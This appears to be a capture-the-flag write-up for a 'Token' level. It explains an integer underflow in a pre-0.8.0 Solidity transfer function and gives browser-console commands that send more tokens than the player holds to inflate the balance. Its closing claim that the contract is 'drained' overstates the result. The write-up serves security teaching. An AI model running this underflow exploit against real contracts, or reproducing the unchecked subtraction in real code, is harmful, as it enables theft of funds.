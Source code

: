 # **Level 05 — Token**

## 🎯 Goal  
The player starts with 20 tokens. The goal is to find a way to increase your token balance — ideally, to the maximum possible amount — by exploiting a flaw in the contract.

## 💥 Vulnerability  
The contract uses uint256 subtraction without `underflow protection`.
**In versions of Solidity < 0.8.0**, subtraction like balances[msg.sender] -= _value does not throw an error when msg.sender has insufficient tokens — it silently underflows, setting a huge balance.

The part of the vulnerable code:
```solidity 
// Solidity code 
function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check the player's balance - 20 tokens
(await contract.balanceOf(player)).toString()

// 1. Check the total supply of tokens - 21000000
(await contract.totalSupply()).toString()

// 2. Call transfer — trigger underflow via dummy address
await contract.transfer("0x1000000000000000000000000000000000000001", 21)

// 3. Check the player's new balance - 115792089237316195423570985008687907853269984665640564039457584007913129639872
// (infinity)
(await contract.balanceOf(player)).toString()
```

## 🧙 Outcome
The player’s balance underflowed and became very large, effectively draining the contract.
